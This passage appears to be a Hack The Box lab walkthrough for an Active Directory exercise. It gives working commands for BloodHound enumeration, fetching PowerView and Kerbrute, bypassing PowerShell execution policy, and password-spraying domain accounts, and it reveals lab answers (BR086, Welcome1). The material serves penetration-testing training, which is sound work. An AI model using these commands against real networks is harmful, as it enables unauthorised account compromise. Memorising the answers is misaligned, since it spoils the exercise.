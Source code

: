### **📋 Solution Steps:**

#### **Step 1: BloodHound Domain Survey**
```bash
# Comprehensive AD enumeration:
proxychains bloodhound-python -d INLANEFREIGHT.LOCAL -ns 172.16.7.3 -c All -u AB920 -p weasal
```

#### **Step 2: Download Tools to Jump Box**
```bash
# Download required tools:
wget -q https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget -q https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe

# Transfer to jump box:
scp PowerView.ps1 htb-student@JUMP_BOX_IP:/home/htb-student/Desktop
scp kerbrute_windows_amd64.exe htb-student@JUMP_BOX_IP:/home/htb-student/Desktop
```

#### **Step 3: User List Generation (In RDP)**
```powershell
# On MS01 via RDP:
cd .\Desktop\
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1

# Generate domain user list:
Get-DomainUser * | Select-Object -ExpandProperty samaccountname | Foreach {$_.TrimEnd()} | Set-Content adusers.txt
```

#### **Step 4: Password Spraying**
```powershell
# Password spray with Kerbrute:
.\kerbrute_windows_amd64.exe passwordspray -d INLANEFREIGHT.LOCAL .\adusers.txt Welcome1

# Result: [+] VALID LOGIN: BR086@INLANEFREIGHT.LOCAL:Welcome1
```

**🎯 Answer**: `BR086`

---

## 🔐 **Question 5: Password Discovery**

### **🎯 Task**: "What is this user's password?"

**From Kerbrute output: `BR086:Welcome1`**

**🎯 Answer**: `Welcome1`

---

## 📁 **Question 6: Configuration File Hunting**
